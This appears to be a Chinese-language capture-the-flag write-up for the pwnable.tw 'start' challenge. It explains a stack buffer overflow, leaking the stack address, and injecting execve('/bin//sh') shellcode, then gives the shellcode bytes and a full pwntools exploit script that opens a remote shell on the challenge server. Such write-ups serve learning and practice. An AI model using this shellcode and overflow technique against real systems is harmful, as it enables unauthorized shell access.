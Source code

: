 这里可以发现我们输入的字符放在了长度为20的栈上，如果我们输入长度大于20的字符串就会造成栈溢出。这里有个坑点，我用peda的checksec显示NX是开启状态，而且ROPgadget也找不到能用的跳转地址，导致我在这思考了很久依然无解。但是事实上这个程序的栈上是可以执行代码的，而且这个程序是静态编译的，不能ret2lib。于是能想到的办法是在栈上布置参数然后用int 0x80调用sys_execve。由于需要在栈上放置shellcode所以我们需要获得栈的地址。经过调试发现在返回地址的下面刚好存放了当前esp的值，于是我们只需要将返回地址设为0x8048087也就是`mov ecx,esp`，就相当于调用了`sys_write(1,esp,20)`，这样就能把栈地址泄露出来了。剩下的事情就是计算好shellcode的偏移然后放置shellcode了，shellcode的汇编代码如下：

```
0:   31 c9                   xor    ecx,ecx
2:   f7 e1                   mul    ecx
4:   51                      push   ecx
5:   68 2f 2f 73 68          push   0x68732f2f
a:   68 2f 62 69 6e          push   0x6e69622f
f:   89 e3                   mov    ebx,esp
11:   b0 0b                   mov    al,0xb
13:   cd 80                   int    0x80

```

设置好eax,ebx,edx,ecx各个参数，然后调用int 0x80中断。

然后最终的利用代码如下：

```python
from pwn import *

debug = False

if debug:
	s = process('./start')
	context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
	gdb.attach(proc.pidof(s)[0],'b _start')
else:
	s = remote('chall.pwnable.tw',10000)

addr_1 = p32(0x08048087) # mov ecx, esp
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

def leak():
	recv = s.recvuntil(':')
	print recv
	payload = 'a'*20 + addr_1
	s.send(payload)
	print 'send: ' + payload
	stack_addr = s.recv(4)
	print 'stack address is : ' + stack_addr
	return u32(stack_addr)

def pwn(addr):
	payload = 'a'*20 + p32(addr+20) + '\x90'*10 + shellcode
	s.send(payload)
	print 'send: ' + payload

addr_2 = leak()
pwn(addr_2)
s.interactive()
```
